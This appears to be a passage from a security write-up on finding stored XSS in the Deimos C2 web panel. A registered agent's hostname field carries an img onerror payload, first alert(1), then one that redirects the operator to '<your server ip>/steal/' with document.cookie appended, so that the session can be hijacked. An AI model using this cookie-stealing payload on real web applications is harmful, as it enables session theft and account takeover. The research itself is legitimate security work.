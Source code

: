 ![img.png]({{site.baseurl}}/assets/deimos-assets/img.png)
Clearly we can see none of them triggered, and we have no XSS. I continued to try loads of different payloads including some Vue specific payloads and inspected the response in the dev tools, which yielded very little results. Eventually I clicked on graph.

![img_1.png]({{site.baseurl}}/assets/deimos-assets/img_1.png)
After clicking on graph we see something weird. There is no hostname or local IP. We don't get an alert either. Looking at the html source we can see the script tags are being rendered but not executed. I decided that I would use an image XSS payload. As this would be rendered and executed.
```go
systemInfo := initialize{"astring",
"astring",
"astring",
"astring",
[]string{"astring"},
"hostname <img src=\"invalid-image.jpg\" style=\"display:none;\" onerror=\"alert(1)\" />",
"astring",
"localip",
"astring",
[]string{"astring"},
1,
false,
false,
""}
```
![img_2.png]({{site.baseurl}}/assets/deimos-assets/img_2.png)

So, we have XSS! 

Now we have XSS but what can we do with it? Well immediately I checked to see how the user who logs into the C2 is authenticated. Is it through a session? cookie? or not. If it is through a cookie or session we could steal this value and paste it into our browser to authenticate to the C2 without needing to know the username or password. We could also leak the C2 IP and do many other things.
![img_3.png]({{site.baseurl}}/assets/deimos-assets/img_3.png)
There was a cookie. I deleted this cookie and we were logged out. Showing we are authenticated if this cookie is present. Immediately I knew what I had to do now. Any common XSS CTF will teach you the next steps.

1. Register an agent with the image XSS payload.
2. The payload will send a request to a server I have access to with the value of the cookie.
3. Paste this cookie into our browser and refresh


When writing the exploit I had some issues with CORS (Cross-Origin Resource Sharing). I would create JavaScript to simply send a request to my server with the cookie value. There are many ways to try to get around CORS, for example, simulating a click on a http forum. However, one thing that worked was using document.location to redirect the user to my page. This meant I had to redirect the user to my http server. However, if we didn't want them to notice we could always just redirect them back to the server they came from.

The final message looks like this:
```go
	systemInfo := initialize{"astring",
		"astring",
		"astring",
		"astring",
		[]string{"astring"},
		"hostname <img src=\"invalid-image.jpg\" style=\"display:none;\" onerror=\"document.location = 'http://<your server ip>/steal/' + document.cookie\" />",
		"astring",
		"localip",
		"astring",
		[]string{"astring"},
		1,
		false,
```
